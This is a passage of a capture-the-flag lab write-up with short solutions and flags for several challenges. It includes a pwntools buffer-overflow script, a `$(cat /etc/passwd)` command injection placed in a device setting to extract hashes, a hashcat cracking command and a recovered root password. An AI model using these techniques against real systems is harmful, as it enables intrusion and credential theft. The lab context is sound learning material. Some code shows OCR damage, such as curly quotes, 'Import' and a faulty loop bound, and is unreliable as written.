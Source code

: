     user@localhost:~$ cd _file.out.extracted/
    
    user@localhost:~/_file.out.extracted$ cat 0
    FLAG: mVFpxbUcM8CBb37fmR
    ```
    
    Flag: mVFpxbUcM8CBb37fmR
    
- L13C4 Server Strike
    - I ssh’ed into the server and looked around. Inside the `…` directory I found the file “weird” and used [this](https://www.filestash.app/sftp-browser.html) to download it onto my VM and ran `chmod +x weird` and when I `./` it, it told me I wasn’t `challenge011306` and so I added a user with that username and ran it and got the flag.
    
    Flag: 6pas0apcxasd7aswzzsapzla
    
- L13C5 Memories
    - The Python script below uses the pwn library for binary exploitation to send a buffer overflow payload to a running program, causing it to crash or execute unintended code. It then opens an interactive session with the running program for further debugging or exploration.
    - Python Code
        
        ```python
        #!/usr/bin/env python
        
        Import pwn
        
        io = pwn.process(“./program-x86”)
        
        io.send(b”A” * 156 + pwn.p32(0x80484b1))
        
        io.interactive()
        ```
        
    
    Flag: 4UPzOlkhlUBvY8bHikd
    
- L13C6 Binary Memories
    - Run the command `ltrace ./program-x86`
    
    Flag: r4nd4tfunall4is444dom
    
- L13C7 Seashell
    - I asked ChatGPT to decode the assembly code to plain text and toward the end there is plain text that says `shellcode_is_data_data_is_shellcode` using the python code below I got the flag.
    - Python code
        
        ```python
        counter = 0
        data = "shellcode_is_data_data_is_shellcode"
        
        while counter <= len(data):
            print(data[counter], end="")
            counter += 2
        ```
        
    
    Flag: seloei_aadt_sseloe
    
- L13C8 Hash’em
    - to get the hash put `$(cat /etc/passwd)` into the backup setting to get the hashes
    - use `hashcat -a 0 -m 500 <path-to-hash-file>.hash <path-to-rockyou-wordlist>.txt -O`
    - enter `root / topcat` into the phone
    